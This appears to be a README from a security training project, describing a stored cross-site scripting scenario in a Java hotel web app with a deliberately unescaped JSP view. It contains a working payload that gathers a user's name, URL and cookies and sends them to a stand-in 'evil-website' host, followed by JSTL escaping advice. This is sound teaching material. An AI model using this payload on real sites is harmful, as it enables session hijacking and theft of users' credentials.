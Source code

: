 Java: XSS
=========

Scenario summary
----------------

The attacker will create an hotel description that has an embedded script that
will send the cookies of a user browsing the web site to the attacker website.

Code change
-----------

In the views, the view `hotel/view.jsp` will not escape the value of the hotel
description.

The *evil-website* server must be deployed for this attack to work.

Scenario description
--------------------

To test whether the injection is possible, write in the description field the
following code:

	<script>alert('hello');</script>

To send the cookies of users to an evil website, set the following code as the
description of an hotel.

	<h3>That hotel!</h3>
	<div id="myHotel">Welcome!</div>
	<script type="text/javascript">
	var data;
	data += "[user: " + $("#login a.btn-primary").text() + "]";
	data += "[url: " + document.location.href + "]";
	data += "[cookie: " + document.cookie + "]";
	var imgsrc = "http://localhost:8081/evilhotel/sendData?data=" + escape(data);
	$("<img />").attr("src", imgsrc).appendTo($("#myHotel"));
	</script>

In the *evil-website* console, the user information should appear.

Preventing the attack
---------------------

*All* data that is printed as HTML must be escaped or at least "white list"
validated.

To escape HTML using JSP, use the available JSTL:

	<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c" %>

	<!-- valid string -->
	<c:out value="${myString}"/>
	<!-- possible injection -->
	${myString}

